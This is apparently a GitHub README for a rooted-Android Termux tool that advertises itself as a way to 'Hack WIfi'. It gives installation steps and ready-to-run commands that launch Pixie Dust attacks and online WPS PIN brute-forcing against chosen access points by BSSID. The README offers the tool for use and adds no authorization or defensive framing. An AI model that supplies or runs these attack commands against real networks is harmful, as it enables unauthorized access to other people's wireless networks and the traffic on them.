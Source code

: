 
<h1 align="center">Knownrdx</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
• pkg install
• pkg update
• pkg install python
• pkg install python2
• pkg install root-repo -y
• pkg install git tsu python wpa-supplicant pixiewps iw -y
• git clone https://github.com/knownrdx/wifi.git
• cd wifi 
• pip3 install -r requirements.txt
• chmod +x wifi.py
• sudo python wifi/wifi.py -i wlan0 --iface-down -K
```
#### Help : `sudo python wifi/wifi.py --help`
#### Example : `sudo python wifi/wifi.py -i wlan0 --iface-down -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- sudo python wifi/wifi.py -i wlan0 --iface-down -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi/wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi/wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽 (License)

Copyright (c) 2024 knownrdx

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/zahidnu0/iamzahidbd"> Here </a>

##### Modify History : => 🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/Iam.Zahid0" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="zahid" height="30" width="40" /></a>
</div>
<a href="https://github.com/zahidnu0">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
